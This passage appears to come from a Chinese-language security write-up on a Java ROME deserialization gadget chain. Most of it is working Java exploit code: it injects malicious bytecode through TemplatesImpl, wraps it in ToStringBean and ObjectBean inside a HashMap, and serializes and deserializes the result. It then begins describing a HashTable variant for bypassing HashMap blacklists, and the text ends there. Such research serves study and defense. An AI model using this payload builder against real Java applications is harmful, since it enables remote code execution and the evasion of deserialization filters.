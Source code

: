 ```bash
        byte[] code = Files.readAllBytes(Paths.get("D://Tomcat/CC/target/classes/EXPROME/Demo.class"));
        byte[][] codes = {code};
        TemplatesImpl templates = new TemplatesImpl();
        Class tc = templates.getClass();
        setValue(templates,"_name","Ic4F1ame");
        setValue(templates, "_tfactory", new TransformerFactoryImpl());
        setValue(templates,"_bytecodes",codes);


        ToStringBean toStringBean = new ToStringBean(Templates.class,new ConstantTransformer(1));

        ObjectBean objectBean = new ObjectBean(ToStringBean.class,toStringBean);


        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put(objectBean,"123");

        Field field = toStringBean.getClass().getDeclaredField("_obj");
        field.setAccessible(true);
        field.set(toStringBean,templates);
//        serialize(hashMap);
        unserialize("ser.bin");
    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

## EXP(HashTable)：

这里针对如果入口类黑名单中存在 HashMap 类，我们这里能够用 HashTable 进行绕过，我们可以发现 HashTable 的 readObject 地方，对每个 key 和 value 都会调用 reconstitutionPut() 函数：

[![](assets/1701612185-d9af99dc47c3d2105a64eb216a1551d9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230807155246-658cea7a-34f7-1.png)
